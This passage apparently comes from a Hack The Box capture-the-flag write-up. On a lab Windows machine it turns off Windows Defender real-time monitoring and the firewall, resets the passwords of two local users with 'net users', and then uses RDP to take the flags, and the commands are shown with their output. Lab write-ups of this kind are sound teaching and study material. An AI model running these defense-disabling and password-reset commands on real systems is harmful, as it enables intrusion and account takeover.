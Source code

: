 I thought of googling for ways to recover EFS encrypted files but instead I just YOLOed it:

Attack plan:

- Disable Windows Defender
- Disable Firewall
- Change Rupal and Jorge's passwords
- RDP in and steal their shit

```
PS C:\> Set-MpPreference -DisableRealtimeMonitoring $true

PS C:\> NetSh Advfirewall set allprofiles state off
Ok.

PS C:\> net users rupal Yoloed1234!
net users rupal Yoloed1234!
The command completed successfully.

PS C:\> net users jorge Yoloed1234!
net users jorge Yoloed1234!
The command completed successfully.
```

Sweet, RDP is already running, no need to enable it:

```
PS C:\> netstat -an                
netstat -an                        
                                   
Active Connections                 
                                   
  Proto  Local Address          Foreign Address        State
  TCP    0.0.0.0:21             0.0.0.0:0              LISTENING
  TCP    0.0.0.0:80             0.0.0.0:0              LISTENING
  TCP    0.0.0.0:135            0.0.0.0:0              LISTENING
  TCP    0.0.0.0:445            0.0.0.0:0              LISTENING
  TCP    0.0.0.0:3389           0.0.0.0:0              LISTENING
```

At last, we can RDP and get the flags!!

![](/assets/images/htb-writeup-ethereal/jorge.png)

![](/assets/images/htb-writeup-ethereal/rupal.png)
